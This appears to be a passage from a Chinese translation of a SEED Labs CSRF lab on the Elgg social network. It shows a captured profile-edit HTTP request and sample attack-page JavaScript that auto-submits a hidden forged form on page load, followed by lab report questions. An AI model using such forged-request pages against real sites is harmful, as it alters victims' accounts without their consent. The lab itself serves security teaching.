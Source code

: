 POST /action/profile/edit HTTP/1.1
Host: www.seed-server.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:23.0) ...
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.seed-server.com/profile/elgguser1/edit
Cookie: Elgg=p0dci8baqrl4i2ipv2mio3po05
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 642
__elgg_token=fc98784a9fbd02b68682bbb0e75b428b&amp;__elgg_ts=1403464813  ★
name=elgguser1&amp;description=%3Cp%3Iamelgguser1%3C%2Fp%3E
accesslevel%5Bdescription%5D=2&amp;briefdescription= Iamelgguser1
accesslevel%5Bbriefdescription%5D=2&amp;location=US
......                                                              ★</code></pre>
</div>
<p></p>
<div>理解了请求的结构之后，你需要在攻击页面里生成这样的请求。为了帮助你编写此类 JavaScript 程序，我们提供了一个示例代码。你可以使用此示例代码来构建 CSRF 攻击，但这只是个示例代码，你需要对其进行修改以使其适用于你的攻击。</div>
<div>
<pre class="language-markup"><code>&lt;html&gt;
&lt;body&gt;
&lt;h1&gt;此页面伪造一个 HTTP POST 请求。&lt;/h1&gt;
&lt;script type="text/javascript"&gt;

function forge_post()
{
    var fields;

    // 下面是攻击者需要填写的表单输入项。这些条目是隐藏的，受害者看不到。
    fields += "&lt;input type='hidden' name='name' value='****'&gt;";
    fields += "&lt;input type='hidden' name='briefdescription' value='****'&gt;";
    fields += "&lt;input type='hidden' name='accesslevel[briefdescription]'
                                    value='2'&gt;";          🅰
    fields += "&lt;input type='hidden' name='guid' value='****'&gt;";

    // 创建一个 &lt;form&gt; 元素。
    var p = document.createElement("form");

    // 构造表单
    p.action = "http://www.example.com";
    p.innerHTML = fields;
    p.method = "post";

    // 将表单添加到当前页面中。
    document.body.appendChild(p);

    // 提交表单
    p.submit();
}

// 页面加载后会调用 forge_post() 函数。
window.onload = function() { forge_post();}
&lt;/script&gt;
&lt;/body&gt;
&lt;/html&gt;</code></pre>
</div>
<div>在行 🅰，值  2 将字段的访问级别设置为公开，这是必须的，否则默认情况下该字段将被设为私有，其他用户则无法看到此字段。需要注意的是，在从其它类型 文件中复制和粘贴上述代码时，程序中的单引号字符可能变成了其他符号（但仍然看起来像单引号）。这会导致语法错误。用你的键盘输入的单引号替换所有这些符号将解决这些问题。</div>
<div> </div>
<div><strong>问题：</strong>除了详细描述你的攻击外，你还需要在报告中回答以下问题：</div>
<ul>
<li><strong>问题 1：</strong>伪造的 HTTP 请求需要 Alice 的用户 ID（guid）才能正常工作。如果 Boby 特别针对 Alice 发动攻击，在发动攻击前他可以想办法来获取 Alice 的用户 ID。Boby 不知道 Alice 在 Elgg 中的密码，因此无法登录到 Alice 的帐户以获取相关信息。请描述 Boby 如何解决这个问题。</li>
<li><strong>问题 2：</strong>如果 Boby 想要修改访问他的恶意网页的任何人的 Elgg 个人资料，在事先并不知道谁会访问的情况下还可以发起 CSRF 攻击吗？请解释。</li>